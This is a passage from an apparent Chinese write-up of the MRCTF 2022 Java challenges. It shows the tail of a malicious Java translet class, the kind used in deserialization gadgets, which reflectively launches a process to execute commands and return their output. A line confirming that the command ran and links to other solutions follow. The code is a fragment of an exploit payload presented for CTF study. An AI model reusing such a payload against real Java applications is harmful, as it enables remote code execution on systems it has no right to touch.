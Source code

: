 ```java
        try {
            if (f0 != null) {
                ((FileInputStream)f0).close();
            }
        } finally {
            try {
                if (f1 != null) {
                    ((FileOutputStream)f1).close();
                }
            } finally {
                if (f2 != null) {
                    ((FileOutputStream)f2).close();
                }
            }
        }
        Object object = constructor.newInstance(this.toCString(strs[0]), argBlock, args.length, null, envc[0], null, std_fds, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        return (InputStream)inMethod.invoke(object);
    }
    public String inputStreamToString(InputStream in, String charset) throws IOException {
        try {
            if (charset == null) {
                charset = "UTF-8";
            }
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int a = 0;
            byte[] b = new byte[1024];
            while((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }
            String var6 = new String(out.toByteArray());
            return var6;
        } catch (IOException var10) {
            throw var10;
        } finally {
            if (in != null) {
                in.close();
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```
![](https://img-blog.csdnimg.cn/1416ae60af27420a90fe980242602d7d.png)

成功执行命令

参考：
[2022MRCTF-Java部分](https://y4tacker.github.io/2022/04/24/year/2022/4/2022MRCTF-Java%E9%83%A8%E5%88%86/)
[MRCTF-java部分](https://dem0dem0.top/2022/05/30/mrctf2022java%E9%A2%98%E8%A7%A3/)
[MRCTF 2022 By W&M](https://blog.wm-team.cn/index.php/archives/18/)
